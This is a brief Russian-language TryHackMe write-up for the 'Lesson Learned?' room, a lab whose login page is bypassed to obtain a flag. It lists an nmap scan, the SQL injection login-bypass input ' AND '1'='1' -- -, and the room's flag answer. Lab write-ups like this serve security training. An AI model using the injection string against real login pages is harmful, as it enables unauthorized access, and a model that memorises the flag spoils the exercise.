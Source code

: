 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Lesson Learned?](https://tryhackme.com/r/room/lessonlearned) 

Всего 1 заданиe:
## Задание 1
Это относительно простая машина, которая пытается преподать вам урок, но, может быть, вы уже усвоили этот урок? 
Давайте выясним. 

Относитесь к этому ящику так, как будто это настоящая цель, а не CTF.

Пройдите экран входа и вы найдете флаг. Нет никаких кроличьих нор, никаких скрытых файлов, только страница входа и 
флаг. Удачи! 
 
Цель: http:// MACHINE_IP/

### Ответьте на вопросы ниже
Какой флаг?
```commandline
nmap -sV -sC <IP>
http://<IP>
' AND '1'='1' -- -
```
```commandline
THM{aab02c6b76bb752456a54c80c2d6fb1e}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)